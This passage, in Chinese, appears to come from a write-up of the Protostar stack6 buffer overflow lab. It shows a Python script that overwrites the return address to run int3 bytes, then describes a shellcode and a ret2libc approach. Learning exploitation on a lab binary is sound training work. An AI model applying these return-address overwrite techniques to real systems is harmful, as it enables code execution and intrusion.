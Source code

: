 先将`payload`设置为int3指令。

```shell
$ cat stack6_r2t.py
buffer = ""
for i in range(0x41, 0x55):
	buffer += chr(i) * 4
ret = "\xf9\x84\x04\x08" #0x080484f9 ret指令的地址
ret += "\x24\xfd\xff\xbf" #0xbffffd1c+8=0xbffffd24 esp+8
payload = "\xcc" * 8
padding = buffer + ret + payload
print padding
$ python stack6_r2t.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT # 后接一段乱码
$ (python stack6_r2t.py) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT # 后接一段乱码
Trace/breakpoint trap
```

<img src=".\stack6-analysis-5.png" style="zoom:80%;" />

`Trace/breakpoint trap`说明我们成功让程序执行了int3指令。

综上所述，想要程序执行`/bin/sh`，需要将攻击脚本中的`payload`设置为`/bin/sh`的shellcode。



### 方法二：在LibC空间中找到可复用的攻击代码（ret2libc）

libc library中的`system()`函数也可以运行`/bin/sh`。

```shell
(gdb) print system # 查看system()函数的入口地址
```

<img src=".\stack6-analysis-6.png" style="zoom:80%;" />

其地址不以0xbf开头，所以可以利用。

